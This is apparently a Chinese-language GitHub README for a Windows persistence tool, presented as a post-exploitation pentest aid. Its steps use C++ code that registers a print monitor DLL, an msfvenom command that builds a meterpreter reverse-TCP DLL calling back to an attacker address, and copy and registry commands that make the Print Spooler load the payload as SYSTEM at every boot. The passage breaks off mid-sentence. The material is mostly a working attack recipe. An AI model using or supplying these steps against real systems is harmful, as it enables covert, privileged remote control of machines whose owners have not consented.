






#### 项目说明

用于实现后渗透测试阶段权限维持

#### 项目使用

**Step1**：下载该项目，之后使用VS编译Monitor.cpp，当然也可以使用编译好的，Monitor.cpp代码如下所示：

~~~
#include "Windows.h"

int main() {
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("Monitor");
	TCHAR dll[12] = TEXT("test.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
~~~

- pName //监视器名称 
- pEnvironment //环境架构 
- pDLLName //监视器DLL文件的名称

**Step 2**：使用Msfvenom生成dll攻击载荷：

~~~
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.188.129 LPORT=4444 -f dll > shell.dll
~~~

**Step 3**：将shell.dll复制到目标主机的system32目录下，之后重命名为test.dll(也就是上面的PDLLName，你也可以自己修改为自己喜欢的，总之随意)

~~~
copy C:\temp\shell.dll C:\Windows\System32\test.dll
~~~

**Step 4**：之后进入system32目录，并执行以下命令(Monitors.exe为之前编译好的文件，也需要放置到system32目录下)：

~~~
Monitors.exe
~~~

**Step 5**：之后成功接收到Meterpreter会话

#### 持久化实现

为了实现持久性，我们需要在"Monitors"注册表位置下设置一个key:

~~~
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors
~~~

之后在命令行下执行以下命令创建一个注册表项，该注册表项将包含值test.dll，从编辑器中查看注册表验证密钥是否已创建：

~~~
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
~~~

下次重新启动时，spoolsv.exe进程将加载Monitors注册表项中存在并存储在Windows文件夹System32中的所有驱动程序DLL文件，下图演示了Meterpreter会话已建立与Print Spooler服务(SYSTEM)相同级别的特权，并且已从System32文件夹执行了

